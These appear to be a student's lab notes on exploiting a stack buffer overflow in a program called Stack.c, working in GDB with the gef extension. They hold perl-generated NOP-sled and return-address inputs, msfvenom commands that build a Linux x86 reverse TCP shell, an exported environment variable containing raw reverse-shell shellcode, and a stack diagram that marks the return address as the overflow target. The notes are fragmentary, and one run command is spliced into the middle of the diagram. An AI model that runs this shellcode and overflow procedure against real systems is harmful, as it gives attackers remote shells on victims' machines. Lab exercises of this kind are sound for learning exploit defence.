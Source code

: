 ##### Stack.c
bufSize => 4 bytes
a => 4 bytes
b => 4 bytes
buffer => 28 bytes


![[Pasted image 20250901215505.png]]
0x565562ed



0xffffcf0e


x`



gef➤  run $(perl -e 'print "\x90"x20, "\x0e\xcf\xff\xff"')


msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c


msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c -b "\x00\xff\x0a\x0d\x20"

run $(perl -e 'print "\x90"x28')


export SHELLCODE=$(perl -e 'print "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd".
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02".
"\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3".
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f".
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";')



printenv SHELLCODE | hexdump -C


msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c -b '\x00\x0a\x0d\x20'

           HIGH ADDRESSES
+-----------------------------+
| argv[1] (str)               | 0xffffcd5c
+-----------------------------+
| studentID = 35595108        | 0xffffcd58
+-----------------------------+
| Return Address              | 0xffffcd54  <--- OVERFLOW TARGET
+-----------------------------+
| Saved EBP                   | 0xffffcd50
+-----------------------------+
| a = 12 (0x0c)               | 0xffffcd4c
+-----------------------------+
| b = 18 (0x12)               | 0xffffcd48
+-----------------------------+
| bufSize = 16 (0x10)         | 0xffffcd44
+-----------------------------+
| (padding / alignment stuff) | 0xffffcd30–0xffffcd40
+-----------------------------+
| buffer[16]                  | 0xffffcd20–0xffffcd2f
|   • [0..3]  0x41414141 "AAAA"
|   • [4..7]  0x00000000
|   • [8..run $(perl -e 'print "\x90"x20')11] 0x00000000